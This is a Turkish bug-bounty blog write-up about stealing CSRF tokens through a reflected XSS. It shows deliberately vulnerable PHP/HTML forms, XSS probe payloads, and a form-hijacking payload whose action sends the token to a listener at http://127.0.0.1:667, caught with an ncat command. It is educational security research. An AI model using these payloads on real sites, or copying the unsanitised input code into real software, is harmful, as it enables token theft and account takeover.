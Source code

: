 ```yaml
---
title: 'TR \| Steal CSRF Tokens with simple XSS'
date: 2019-06-27
permalink: /posts/steal-csrf-tokens-with-simple-xss/
tags:
  - xss
  - hack
  - steal csrf tokens
  - csrf bypass
  - csrf
  - bugbounty
  - bug bounty
  - write-up
  - poc
  - vulnerability
excerpt: 'Steal CSRF Tokens with simple XSS'
---
```


Merhaba,  
Ben Samet ŞAHİN.  
İki yıldan biraz uzun süredir *Bug Bounty* ile ve toplamda yaklaşık dört yıldır da *Web Uygulama Güvenliği* alanında çalışmalar yürütmekteyim. 

*Bug Hunterlar* olarak biz, Bug Bounty ile uğraşırken pek çok farklı sistem ve farklı güvenlik önlemleri görüyoruz. Amacımız güvenli (gözüken) sistemlerde (gerçek ve etkisi olan) açıklar bulup, onları şirketlere bildirmektir. 


Yaptığımız testlerde bulduğumuz aynı tür açıklar her zaman aynı potansiyel zarara (impact) sahip olmayabiliyor. 

Örneğin;
Kurbana otomatik olarak çıkış yaptıran CSRF açığı (Bu genellikle açık kapsamına bile girmez.) ile kurbana otomatik olarak eposta ve parola değişikliği yaptıran CSRF (*1) açığı elbette aynı zararı veremez.


  

Şimdi, bu yazının konusuna gelelim. Elimizde iki adet XSS (Cross Site Scripting) açığı ve HTML kaynak kodundaki bir *input* tagına yansımış CSRF tokenlerimiz (*2) var. 
  

## Normal XSS Açığı :  
Çirkin bir arama kutusu olduğunu, sitenin kaynak kodlarında CSRF Tokenlerin bulunduğunu ve bir inputun değerini, *GET* isteğindeki *search* parametresinden aldığını görüyoruz. (*3)

```php
<?php 
$benCSRFtoken = "samet";
$printMD5 = md5($benCSRFtoken);
?>
```
```html	
<form>
<input type="hidden" name="CSRFtoken" value="<?php echo $printMD5 ?>">
<input type="text" name="search" value="<?php echo $_GET['search']; ?>">
<input type="submit" value="Submit">
</form>
```


Elimizde şu an için hiçbir açık yok fakat görüyoruz ki *search* parametresi hiçbir sanitizasyon (*4) işlemi yapılmamış. Bu durumda diyebiliriz ki buradan bir XSS açığı çıkabilir. (*5) Açığı bulmamız için GET metoduyla search parametresine bir payload (*6) gönderiyoruz ;
`"><h1>xss`  gönderdik ve kaynak kodunu inceledik : 

<img src="/images/Blog-1.png">


Evet, başarılı bir şekilde valuenin tırnaklarını kapattık ve artık kendi HTML kodumuzu site üzerinde çalıştırabileceğimizi gördük. Şimdi XSS kanıtı için JavaScript kodunu çalıştırmamız gerekiyor. Bu seferki açık kodumuz ;
`"><script>alert(1)</script>` (*7) gönderdik ve kaynak kodunu inceledik :

<img src="/images/Blog-2.png">


XSS açığını kanıtlamış olduk. Bu normal bir XSS saldırısıydı ve HTML ve JavaScript kodu çalıştırmak dışında pek de bir şey yapamadık.


## Kritik XSS Açığı : 
Normal XSS açığında gördüğümüz sayfayla aynı işlemi yapmasına rağmen inputların sırasının farklı olduğu bir sayfa. İlk açıkta gönderdiğimiz açık kodlarının bu sitede de çalıştığını görebiliyoruz. 

```php
<?php 
$benCSRFtoken = "samet";
$printMD5 = md5($benCSRFtoken);
?>
```
```html
<form>
<input type="hidden" name="search" value="<?php echo $_GET['search']; ?>">	
<input type="hidden" name="CSRFtoken" value="<?php echo $printMD5 ?>">
<input type="submit" value="Submit">
</form>
```



**Trick zamanı :**  
Örneklerle de gördüğümüz gibi iki tane XSS ve input taglarına yansıtılmış CSRF tokenlerini gördük. Eğer `<form>` tagı ve CSRF tokeninin yansıtılmış olduğu input tagının arasında XSS açığına sahipseniz, CSRF tokenlerini de çalabilirsiniz. Bu gerçek ve daha önce pek çok kez karşılaştığım bir senaryo ama Sadece Kritik XSS açığında işe yarar. Neden mi ?

- Çünkü HTML dilinde değişken tanımlayıp sonra kullanma gibi bir ihtimaliniz yoktur. Yani yukarıda bir CSRF Tokenli input varsa ve siz aşağıdaki tagda kod çalıştırabiliyorsanız, o CSRF Tokenine XSS açığı ile erişemezsiniz. (*8)

-  Yukarıda da değindiğim gibi `<form>` ve `</form>` tagları arasında ve CSRF Token'in yansıtılmış olduğu `<input>` tagının üstünde çalışan bir XSS açığına olmanız gerekmektedir. Eğer bu ikisine de sahipseniz CSRF tokenlerini rahatlıkla çalabilirsiniz.



**O zaman exploit edelim :**  
Öncelikle XSS açığıyla CSRF tokenlerini çalabilmek için güzel bir payload yazmamız gerekiyor. Paylaodımızın  mantığı şu olmalı : 
- Daha önce açılmış olan formu kapat : `"></form>`
- Yeni bir form aç ve action (*9) eventine dinlediğin ip ve port'u gir (*10) : `"></form><form method="GET" action="http://127.0.0.1:667/bla.html">`
- Ncat ile seçili portu (667) dinle : `ncat -nlvp 667`
- Kullanıcıyı butona tıklat ve loglardan CSRF Token'ini çek : `| grep CSRF`


Exploit videosu burada :
<video width="500" controls>
  <source src="/files/Blog-1.webm" type="video/mp4">
</video>




**SONUÇ :**  
Değerli içerik taşıyan input tagının ve açıklı input tagının sırası bile bir açığın zararını arttıracak kadar önemli olabiliyor. Bu yüzden manuel testler yapmanız ve bunun gibi trickleri deneyerek öğrenmeniz çok önemli. Deneyebilmeniz için Github'a XSS açıklı 2 dosyayı da koyuyorum. Kendi tricklerimi ve işinize yarayabilecek trickleri paylaştığım Twitter ve LinkedIn hesaplarımdan bana ulaşabilirsiniz. 


[Github](https://github.com/sametsahinnet/XSS-Blog-Post)

  ----

***1** :
Bu açık hakkında yazımı okuyabilirsiniz : https://sametsahin.net/posts/account-takeover-via-reset-password/

***2** :
CSRF açığının oluşmasını engellemek için her istek veya kullanıcıya göre değişen uzun ve rastgele değerdir. Bu tokenlerin olmadığı durumlarda CSRF açığı meydana gelebilir.

***3** :
Bu kısım temel Web bilgisine dayandığı için Google'dan bulabilirsiniz.

***4** :
Sanitizasyon, diğer adıyla filtreleme işlemleri, kullanıcıdan direkt olarak alınan girdilerin, açıklara dönüşmesini engellemek için kullanılan güvenli kod yazma tekniğidir. Pek çok açık gerekli sanitizasyon işleminin yapılmaması veya yeterince kapsamlı olmamasından kaynaklanır.

***5** :
Elbette XSS çıkar bu doğru. Yanlış olan oradan sadece XSS çıkacağı düşüncesidir. Özellikle bu işlere yeni başladıysanız sadece bir açık bulmaya çalışırsınız. Yapmanız gereken bir açıktan en fazla ne kadar ileriye gidebileceğinizi denemektir. Herkes XSS bulabilir ama sizin farkınız XSS'ten CSRF'e gitmenizdir.

***6** :
Payload, açıkları bulmak ve sömürmek için hacker tarafından yazılan kodlardır. Payloadlara, açık kodları diyebiliriz. Ve payloadlar yeşil renkle ekrandan hızlıca akıp gitmez :)

***7** :
Normalde böyle bir payload çok az yerde çalışır. Payloadlarınızın kalitesini arttırmanız için elle yazmalı ve her tuşun kaynak kodunda yansımış olduğu yerlere dikkatlice bakmalısınız. Yani her deneyişinizde websitenin yanıtını kontrol etmelisiniz.

***8** :
Hayır, erişebilirsiniz. Ama bunun ihtimali çok düşüktür. JavaScript kullanarak input içinde yer alan değerleri ekrana basabilirsiniz. Fakat bunun için uzun ve içinde `<script>` tagının kullanılmış olduğu bir payload yazmak zorundasınız. Ve ödül verecek kadar büyük tüm şirketler o `<script>` tagını gördüğü anda sizi engeller. Bu yüzden bulsanız bulsanız küçük yerlerde bulursunuz ve o küçük yerler de küçük olduğu için CSRF token zaten kullanmamış olur ;)

***9** :
HTML'de form tagı açıldığı zaman bir de onu kapatmanız gerekir. Biz kapanmış form (`</form>`) tagı enjekte ettiğimiz zaman görüntü şu şekilde olur : 


```html
<form>
<input type="hidden" name="search" value="query"></form>">
<input type="hidden" name="CSRFtoken" value="2e47d7f81970b3bb09d249a7de385dbc">
<input type="submit" value="Submit">
</form>
```

Enjekte ettiğimiz form tagı ile bir adet tamamen kapatılmış ve bir adet de açılış tagı eksik olan `</form>` tagımız olur. O zaman açılış tagımızı payloadımıza ekliyoruz ve son durumda iki adet form'umuz oluyor : 

```html
<form>
<input type="hidden" name="search" value="query">
</form>
```
ve
```html
<form>">
<input type="hidden" name="CSRFtoken" value="2e47d7f81970b3bb09d249a7de385dbc">
<input type="submit" value="Submit">
</form>
```

Baştan beri amacımız CSRF Tokeni içeren form'u kontrol edebilmekti. Action kısmını değiştirdiğimiz anda artık CSRF Tokeni içeren her istek bizim loglarımıza düşecek ve oradan okuyabileceğiz.

***10** :
CSRF Token'ine loglardan erişebilmemiz için logların bizde olması gerekir. Bu yüzden kendi localimizde rastgele bir portu dinliyoruz. Bu işlemi `ncat` ile yapabilirsiniz : 

`ncat -nlvp 667`





Değerli zamanınız için teşekkür ederim.  
Bol açıklar :)
